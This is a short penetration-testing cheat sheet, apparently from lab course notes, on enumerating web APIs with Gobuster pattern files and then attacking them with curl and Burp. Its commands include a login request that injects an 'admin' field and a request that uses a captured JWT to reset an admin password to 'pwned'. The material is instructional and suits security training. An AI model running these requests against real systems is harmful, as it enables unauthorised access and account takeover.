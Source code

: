API paths are often followed by a version number, resulting in a pattern such as:
```
/api_name/v1
```
The API name is often quite descriptive about the feature or data it uses to operate, followed directly by the version number.

With this information, let's try brute forcing the API paths using a wordlist along with the pattern Gobuster feature. We can call this feature by using the -p option and providing a file with patterns. For our test, we'll create a simple pattern file on our Kali system containing the following text:
```
{GOBUSTER}/v1
{GOBUSTER}/v2
```
# Manual API Hacking
## Scan for API's
To run a pattern file for enumerating API's, use the following command:
```bash
gobuster dir -u http://[Web address/ip]:[port] -w /usr/share/wordlists/dirb/big.txt -p pattern
```
To enumerate a specific API:
```bash
gobuster dir -u http:[Web address/ip]:[port] -w /usr/share/wordlists/dirb/big.txt -p pattern
```
## Enumerating API's further
* Try curl discovered API's!
```bash
curl -i http://[Web address/ip]/path/to/api
```
* Depending on results, try bruteforcing scanning other specific API's (i.e. if /users returns an admin, try bruteforcing /users/v1/admin for other API's).

Rinse and Repeat! 
## Interacting with API's
If interesting API's require data to be posted, refer to the following example:
```bash
curl -d '{"password":"fake","username":"admin", "admin":"True"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```
If a JWT auth token is received, be sure to post it as an "Authorization: Oauth" header, like in the example below:
```bash
curl  \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'
```
If the above command does not work, be sure to try other methods such as PUT or PATCH:
```bash
curl -X [METHOD]
```
* Using Burp instead!
* Switch on burp proxy
* Turn on intercept 
* Run a curl command to the API using the following command:
```bash
curl /path/to/api -d "{'key':'data'}" --proxy 127.0.0.1:8080
```
* Send the request to repeater
